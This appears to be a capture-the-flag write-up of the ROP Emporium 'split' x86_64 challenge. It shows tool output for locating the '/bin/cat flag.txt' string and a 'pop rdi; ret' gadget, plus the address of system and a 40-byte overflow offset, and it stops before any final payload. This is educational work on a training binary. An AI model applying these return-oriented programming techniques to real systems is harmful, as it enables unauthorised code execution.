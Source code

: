 This function as the ret2win function of the previous challenge it is never called. This function execute the system function with as argument
the string '/bin/ls'.

In the x86_64 architectures the argument of the function are passed trough the register, as we can se here. The address where the string '/bin/ls'
is stored inside the elf file is placed inside the edi register, then the system function is called.

**In a 64bit Linux machine Function parameters go in registers rdi, rsi, rdx, rcx, r8, and r9.  Any additional parameters get pushed on the stack.**

So, first of all we need to find our '/bin/cat flag.txt' string. Then we need to place that string into the edi register and after call the system
function at 0x0040074b.

First, find the string using  
``` 
rabin2 -z split 
``` 
this is the result:

``` 
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt
``` 

So at 0x00601060 we have our precious string '/bin/cat flag.txt' we need to find a way to place the address 0x00601060 inside the rdi register.

We can search for some gadgets using ropper

``` 
(.pwn) eurus@warfare:~/Documents/split_all/split$ ropper -f split --search 'pop rdi'
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: split
0x00000000004007c3: pop rdi; ret; 
``` 

So now we have an useful gadget that place an address from the stack into the rdi register. We have all that we need in order
to win this challenge! I will not show again how we can find the offset I have alredy show [here](https://tizianocolagrossi.github.io/rop-emporium-ret2win/)
In this case we have an offset of 40 bytes
